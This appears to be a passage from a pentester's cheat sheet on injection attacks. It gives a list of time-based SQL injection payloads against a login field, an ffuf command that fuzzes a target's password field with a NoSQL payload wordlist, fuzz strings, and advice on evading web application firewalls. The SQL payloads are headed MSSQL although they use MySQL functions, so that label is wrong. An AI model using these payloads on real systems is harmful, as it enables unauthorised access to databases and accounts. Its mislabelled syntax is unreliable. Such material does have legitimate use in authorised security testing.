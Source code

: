 ### time based

```bash
# MSSQL
    'admin" OR IF(1=1, SLEEP(5), 0) -- ',
    'admin" OR IF(1=2, 0, SLEEP(5)) -- ',
    'admin" OR IF(1=1, BENCHMARK(1000000, MD5(1)), 0) -- ',
    'admin" OR IF(1=2, 0, BENCHMARK(1000000, MD5(1))) -- ',
    'admin" OR IF(LENGTH(database()) > 1, SLEEP(5), 0) -- ',
    'admin" OR IF(LENGTH(database()) > 100, 0, SLEEP(5)) -- ',
    'admin" OR IF(EXISTS(SELECT 1 FROM users), SLEEP(5), 0) -- ',
    'admin" OR IF(EXISTS(SELECT * FROM information_schema.tables), SLEEP(5), 0) -- ',
    'admin" OR IF(EXISTS(SELECT 1), SLEEP(5), 0) -- ',
    'admin" OR IF(1=1, SLEEP(5), 0) /* '

```

## noSQLi

No SQL injection occurs in non-relational databases such MongoDB, REDIS and others. These data bases work with paradigms containing full logical operators, json and specific query syntax no like SQL and much more advanced.
So basically to target noSQL DB it is needed to identify underlying technology. However. the workflow is much alike SQL.

1. Detect the injection point.

```bash

# fuzz to detect abnormal response
ffuf -w https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/NoSQL%20Injection/Intruder/NoSQL.txt -X POST -d "username=admin\&password=FUZZ" -u https://target/login.php -fc 401

```
As always check PayloadsAllTheThings and PortSwigger. In case of WAF use double encoding, capitalization and other obfuscation measures.

Some quick n dirty strings

```text
'"`{
;$Foo}
$Foo \xYZ
```

Oneliner

```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

Dont forget to URL encode this stuff (Ctrl + U in Burp).

Additionally, it is good to confirm the injection point using some kind of `sleep()` function. Like `sleep(5000)` would cause MongoDB query to wait 5 seconds.
